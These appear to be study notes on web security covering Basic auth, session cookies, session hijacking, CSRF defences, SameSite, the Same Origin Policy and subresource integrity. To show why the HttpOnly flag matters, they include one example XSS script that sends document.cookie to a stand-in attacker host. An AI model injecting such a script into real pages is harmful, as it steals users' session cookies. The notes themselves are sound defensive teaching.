
HTTP response header correctly prompts the client to request credentials from the user, to be sent as part of the HTTP Authorization header: WWW-Authenticate: Basic realm="COMP LOGIN"
Client-side sessions
The server gives to the user a cookie that includes all the session data
Server-side sessions
Assign to client
Session state includes username, user ID, user privileges, etc.
For example: Set-Cookie: PHPSESSID=314b427cf4128539c4b3808f1559d170
Session hijacking
Look 5.3 - 5.5
With Secure flag (Must use HTTPS to visit)
Use HTTPOnly Flag
If without, attacker can inserts JS script to steal the cookies by grabbing the document.cookie sends them to his own website
For example
<script> var i=new Image(); i.src="https://attacker.com/?cookie="+ btoa(document.cookie);</script>CSRF defense techniques
Follow REST principles
Anti-CSRF tokens or cookies
SameSite cookie attribute
strip cookies on a request to your site when the request is generated from an external domain
Add: SameSite=Strict
The Same Origin Policy
Policy is an isolation and access control philosophy to isolate documents
Fetching remote code
Add source code hash to increase the integrity, and crossorigin
For example
// Incorrect<script src="https://code.jquery.com/jquery- 3.7.1.min.js"></script>
// Correct<script src="https://code.jquery.com/jquery- 3.7.1.min.js" integrity="sha384- 1H217gwSVyLSIfaLxHbE7dRb3v4mYCKbpQvzx0cegeju1MVsGrX5xXxAvs/HgeFs" crossorigin="anonymous"></script>